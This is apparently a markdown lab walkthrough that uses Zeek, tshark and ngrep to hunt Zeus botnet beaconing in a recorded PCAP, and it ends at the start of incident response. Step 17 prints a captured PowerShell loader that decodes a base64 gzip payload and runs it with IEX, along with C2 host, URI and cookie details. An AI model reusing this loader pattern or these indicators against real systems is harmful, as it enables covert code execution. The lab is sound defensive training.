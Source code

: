 ### Zeek is an open-source network analysis tool. The engine analysis live or recorded network traffic and interprets what it sees and create compact, high-fidelity transaction logs, file content and fully customizable output.
more information: https://zeek.org/

1. We are going to use Zeek to find beacons in the pre-recorded network traffic, in PCAP files.
- Login to Kali and install Zeek
```bash
echo 'deb http://download.opensuse.org/repositories/security:/zeek/Debian_12/ /' | sudo tee /etc/apt/sources.list.d/security:zeek.list
curl -fsSL https://download.opensuse.org/repositories/security:zeek/Debian_12/Release.key | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/security_zeek.gpg > /dev/null
sudo apt update
sudo apt install zeek
```

2. Add Zeek to the PATH
```bash
export PATH="/opt/zeek/bin:$PATH"
```

3. check the Zeek version:
```bash
$ zeek -v
zeek version 6.2.1
```

4. Zeek creates many file types from the PCAP. Like, conn, dns, files, http, ssl etc.
<br>
First download a PCAP which is 24h capture and includes Zeus botnet traffic as well.

```bash
mkdir zeek
cd zeek
``` 
```bash
wget https://www.dropbox.com/s/s2fs42a30z5xp36/zeus_24hr.pcap?dl=0
```

5. Check the file structure and infos with capinfos
```bash
capinfos zeus_24hr.pcap
```
![](attachments/3.0-capinfo.png)

6. Create Zeek files from the PCAP.
```bash
zeek -C -r zeus_24hr.pcap "tcp_inactivity_timeout = 60 min;"

$ ls                            
conn.log  dns.log    http.log  ocsp.log           ssl.log   zeus_24hr.pcap
dhcp.log  files.log  ntp.log   packet_filter.log  x509.log
```

7. List the content of conn.log. Use flag -S for screen width to the chopped
```bash
less -S conn.log
```
---
![](attachments/3.0-zeek1.png)

8. List the the top 10 most active destination
- id.resp_h --> destination IP
- id.resp_p --> destination port
- service --> detected service type by Zeek engine
- sort --> it's a linux tool, sorts the output in order
- uniq -c --> print only once the same lines and -c tells to it to count the same numbers
- sort -rn --> sort the output in a revers order
- head --> list the top 10 only

```bash
cat conn.log | zeek-cut id.resp_h id.resp_p service | sort | uniq -c | sort -rn | head
```

9. Lets find out the source machine
```bash
cat conn.log | zeek-cut id.orig_h id.resp_h id.resp_p | grep 67.207.93.135 | sort | uniq -c

2882 192.168.99.53	67.207.93.135	80
```

10. Examine the distribution of suspicious beacons over a 24-hour period
- create a small script (credit goes to Chris Benton)

```bash
echo "cat conn.* | zeek-cut -d ts id.orig_h id.resp_h | grep \$1 | grep \$2 | sed 's/T/:/g' | cut -d ':' -f 2 | sort | uniq -c | tr -s \" \" | awk '{ print \$2 \" \" \$1}' " > beacon_frequency
```

11. Add +x (execute) to the file, so you can run it
```bash
chmod +x beacon_frequency
```

12. Run the script with the suspicious internal IP and the public IP that was contacted almost 3000 times within a 24-hour period. 
<br>
- Note: From the output, you can see it's a clear case of beaconing. The first column represents hours (0-24), and the second column shows the number of times the malware phoned home. The pattern is very consistent, with little to no jitter. It's time to initiate the incident response process.

```bash
$ ./beacon_frequency 192.168.99.53 67.207.93.135

00 120
01 121
02 120
03 121
04 120
05 121
06 121
07 120
08 121
09 120
10 121
11 120
12 120
13 121
14 119
15 118
16 118
17 118
18 120
19 121
20 120
21 121
22 120
23 120
```

13. To continue the hunt, let's check the http.log file to gather more details. The requested URI could provide valuable insights.
```bash
$ cat http.log| zeek-cut id.orig_h id.resp_h id.resp_p  hsot uri | sort | uniq -c | sort -rn | grep 67.207.93.135

2882 192.168.99.53	67.207.93.135	80		/metro91/admin/1/ppptp.jpg
```

```bash
$ grep 67.207.93.135 http.log | head -1

1591290088.215764	CJ46YN16Y4fZPtmpg6	192.168.99.53	53357	67.207.93.135	80	1	GET	mahamaya1ifesciences.com	/metro91/admin/1/ppptp.jpg	-	1.1	Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; SV1)	-	0	226132	200	OK	-	-	(empty)	-FShOFB3rVJEzLNHjqk	-	text/plain
```

Note: The host and URI is interesting. Like:
- Letter "1" instead of "l"
- User-Agent: Mozilla;WinNT
- It is noteworthy that the MIME type is "text/plain," but the requested URL ends with .jpeg. Shouldn't the MIME type be image/jpeg? Hm?

14. To further investigate, let's examine the User-Agent strings in the various web requests found in the http.log file:

```bash
cat http.log | zeek-cut id.orig_h id.resp_h user_agent | sort | uniq | cut -f 1,3 | sort | uniq -c
```
- Note: Interestingly, the endpoint 192.168.99.53 identifies itself as Windows 7 in some requests and as Windows 10 in others. Hm?

15. Alternatively you can use "ngrep" to get the same outout
```bash
ngrep -q -I zeus_24hr.pcap host 192.168.99.53 and 67.207.93.135 | head -7
T 192.168.99.53:53357 -> 67.207.93.135:80 [AP] #4
GET /metro91/admin/1/ppptp.jpg HTTP/1.1..Accept: */*..Host: mahamaya1ifesciences.com..Cache-Control: no-cache..Cookie: ubaLUA5A46IDcf2i7IHnEbRUmWwtp0Op90/YxBRUDC/oPnNS9mxCUX5XiJm7A2Tn4QuEA6D5Bog5EdRtRXl0vjst19b0gdDiMzvo74tbs+FNVQmVeULxeQMp2P4u2hpqT89pODNKsaQ1O4gozn8p0I7hTJwEdTrTptpvsY+kIdk=..User-Agent
```

- Note: you can check the reputation of the domain in the web request. 

16. Use tshar (CLI version of wireshark) to list the TCP streams from the PCAP
```bash
$ tshark -r zeus_24hr.pcap -T fields -e tcp.stream -e ip.src -e ip.dst -e tcp.dstport | sort -u -n
1	192.168.99.53	67.207.93.135	80
2	192.168.99.53	52.179.224.121	443
3	192.168.99.53	67.207.93.135	80
4	192.168.99.53	67.207.93.135	80
5	192.168.99.53	23.41.253.34	80
6	192.168.99.53	67.207.93.135	80
7	192.168.99.53	67.207.93.135	80
8	192.168.99.53	67.207.93.135	80
9	192.168.99.53	67.207.93.135	80
```

17. Follow the TCP stream. Check the details of the first stream
```bash
$ tshark -r zeus_24hr.pcap -q -z follow,tcp,ascii,1
===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 192.168.99.53:53357
Node 1: 67.207.93.135:80
383
GET /metro91/admin/1/ppptp.jpg HTTP/1.1
Accept: */*
Host: mahamaya1ifesciences.com
Cache-Control: no-cache
Cookie: ubaLUA5A46IDcf2i7IHnEbRUmWwtp0Op90/YxBRUDC/oPnNS9mxCUX5XiJm7A2Tn4QuEA6D5Bog5EdRtRXl0vjst19b0gdDiMzvo74tbs+FNVQmVeULxeQMp2P4u2hpqT89pODNKsaQ1O4gozn8p0I7hTJwEdTrTptpvsY+kIdk=
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; SV1)
Connection: Close
	105
HTTP/1.1 200 OK
Date: Thu, 4 Jun 2020 17:01:31 GMT
Content-Type: text/plain
Content-Length: 226132


$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA..................7+T8Acav9xZNWBQA="));IEX(New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();

```

- Note: The dotted part of the outout is truncated. What we can find out from the output: <br>
17a - Create a new memory Stream Object (IO.MemoryStream) <br>
17b - The Base64 string (“…“) is converted into a byte array. Typicaly encoded and compressed code <br>
17c - Wraps the memory stream in a GZIP decompression stream. (Decompress) <br>
17d - A stream reader is created to read from the decompression stream (IO.StreamReader(…): <br>
17e - `IEX(…)`, alias for Invoke-Expression in PS, which executes a string as PS command. 


18. **It's time to start the Incident Response!**
